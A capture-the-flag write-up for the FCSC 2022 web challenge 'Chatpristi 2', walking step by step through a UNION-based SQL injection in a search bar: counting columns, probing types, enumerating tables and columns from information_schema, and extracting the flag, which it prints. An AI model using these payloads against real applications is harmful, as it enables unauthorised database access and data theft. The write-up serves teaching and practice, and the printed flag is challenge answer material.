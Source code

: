 # Write-up: FCSC 2022 - Web Challenge - Chatpristi 2

## Challenge Description
The challenge consisted of a simple web application featuring a collection of cat memes and a search bar. As soon as I accessed the website, I noticed the search bar, which immediately caught my attention as a possible entry point for injection attacks.

---

## Reconnaissance
I started by exploring the web page to understand its layout and possible vulnerabilities. The search bar seemed like a great candidate to test for SQL Injection vulnerabilities, as such fields often interact with the database.

---

## SQL Injection Testing and Exploitation

### Step 1: Testing for the Number of Columns
To determine the number of columns in the vulnerable table, I began with a basic payload:

    ') UNION SELECT null --
  This produced an error indicating a column mismatch. I iteratively increased the number of null values until no error was returned:

    ') UNION SELECT null, null, null--
  This confirmed that the table had three columns.

  ![Alt Text](1.png)

### Step 2: Determining Column Data Types
  Next, I tested the data types for each column by replacing null with test values:

    ') UNION SELECT 1, 'a', 'a'--
  The query executed successfully, indicating the first column was of type int and the other two were string.

  ![Alt Text](2.png)

### Step 3: Enumerating Tables
  To identify all tables in the database, I executed the following payload:

    ') UNION SELECT 1, 'i', table_name FROM information_schema.tables--
   This listed all tables in the database. Among the results, one table stood out:
        
                  ___youw1lln3verfindmyfl4g___.

  ![Alt Text](3.png)

### Step 4: Enumerating Columns in the Target Table
   I then explored the columns of the target table using this payload:

    ') UNION SELECT 1, 'i', column_name FROM information_schema.columns WHERE table_name = '___youw1lln3verfindmyfl4g___'--
  The query returned two columns:

              id
              fstbg0adwb8f5upmg
              
  ![Alt Text](4.png)
    
### Step 5: Retrieving the Flag
  Finally, I crafted a payload to extract the contents of the table:

  ') UNION SELECT 1, id::text, fstbg0adwb8f5upmg FROM ___youw1lln3verfindmyfl4g___--

   This query revealed the flag stored in the table:

                    FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
  Final Results:
  
![Alt Text](5.png)

  
  The SQL injection exploitation confirmed the vulnerability and successfully extracted the flag.

